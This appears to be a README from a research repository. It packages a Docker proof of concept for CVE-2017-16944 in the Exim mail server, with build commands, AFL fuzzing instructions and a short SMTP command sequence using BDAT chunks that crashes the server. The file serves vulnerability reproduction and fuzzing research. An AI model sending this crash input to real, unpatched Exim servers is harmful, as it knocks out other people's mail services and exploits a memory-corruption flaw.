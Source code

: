 # Simple POC with docker image

To build the image, run `docker build -t exim-16944 .`

To reproduce the exploitable vuln:
```bash
docker run --rm -i exim-16944  < testsuite/cve-2017-16944.txt
```
This will cause a segfault, but docker will exit before you can see it.

If you want to see the segfault, you need to:
1. Run the docker container (`docker run -ti exim-16944 bash `)
```bash
/usr/exim/bin/exim -bs -v
```
2. And then give the input
```bash
EHLO localhost
MAIL FROM:<test@localhost>
RCPT TO:<test@localhost>
BDAT 10
.
BDAT 0

```

You should get a crash:
```
250 0 byte chunk received
250 0 byte chunk received
250 0 byte chunk received
250 0 byte chunk received
250 0 byte chunk received
250 0 byte chunk received
250 0 byte chunk received
250 0 byte chunk received
250 0 byte chunk received
250 0 byte chunk received
```

## Build instructions

You can build this image two ways: binary-only or with afl instrumentation.

Please see [./run.sh](./run.sh) to see how to do this.

## Fuzzing locally with AFL
When you build the image with AFL, you can also fuzz within the image:
```
docker run -ti exim-16944 bash
mkdir out
afl-fuzz -x dictionary.txt -i testsuite -o out -- /usr/exim/bin/exim -bs  -v
```


## What are the jessie and stretch images
These versions do not appear vulnerable.  I include them to show you how to
build an image that contains old versions of software from debian.
